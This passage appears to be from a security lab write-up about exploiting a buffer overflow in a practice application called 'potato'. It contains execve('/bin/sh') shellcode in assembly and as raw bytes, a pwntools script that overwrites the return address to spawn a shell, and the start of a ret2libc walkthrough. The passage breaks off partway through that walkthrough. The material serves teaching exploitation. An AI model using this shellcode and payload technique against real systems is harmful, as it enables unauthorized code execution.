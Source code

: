 ```asm
    xor eax, eax      ; set eax to 0xb (execve syscall) 
    add al, 0x05      ; eax := eax + 5
    add al, 0x06      ; eax := eax + 6 (directly setting al to 0xb won't work)
    push 0x68732f2f   ; put /bin//sh on the stack, 
    push 0x6e69622f   ; (double// avoids having a 0x00 in the code) 
    mov ebx, esp      ; ebx := &"/bin//sh"
    int 0x80          ; syscall
```

This can be translated into a sequence of bytes via `nasm -f elf32 -l listfile.list shellcode.asm`:

```asm
     4 00000000 31C0                        xor eax, eax
     7 00000002 0405                        add al, 0x05
     8 00000004 0406                        add al, 0x06
     9 00000006 682F2F7368                  push 0x68732f2f
    10 0000000B 682F62696E                  push 0x6e69622f
    11 00000010 89E3                        mov ebx, esp
    12 00000012 CD80                        int 0x80
```

The byte sequence in `listfile.list` is the shellcode to inject on the buffer. Moreover,
the return address must be overwritten with the start of the injected shellcode.
In the example below, the shellcode is put at the beginning of `input_username, so
the return address must point there. The address can be retrieved by `p $input_username`
in the debugger, in the example below, it is `0xffffccde`:
```python
# ...
p.sendline(b"changename")

shellcode=(
    b"\x31\xc0\x04\x05\x04\x06\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
)

# append NOPs/0x90 bytes after the shellcode, can be arbitrary bytes, then append the
# address of the `input_username` buffer, this is where the shellcode starts
payload=shellcode + b"\x90"* (62 - len(shellcode)) + p32(0xffffccde)
print("Length of payload: "+ repr(len(payload)))
p.sendline(payload)
p.interactive()
```

Running this script will open up a shell in the terminal that runs the `potato` app.

## Return to libc attack

according to https://bufferoverflows.net/ret2libc-exploitation-example/

For running the libc attack, we need to find to find a `/bin/sh` string in the process memory.
When running the application in the gdb, and stopping at a breakpint, `vmmap` gives us the virtual address
ranges. Searching the heap address range via `find 0x0804f000, 0x08070000, "/bin/sh"`, will give us at
least one address, e.g. `0x804f7d0`. `x/10bx 0x804f7d0` prints out ten hex bytes at the address:
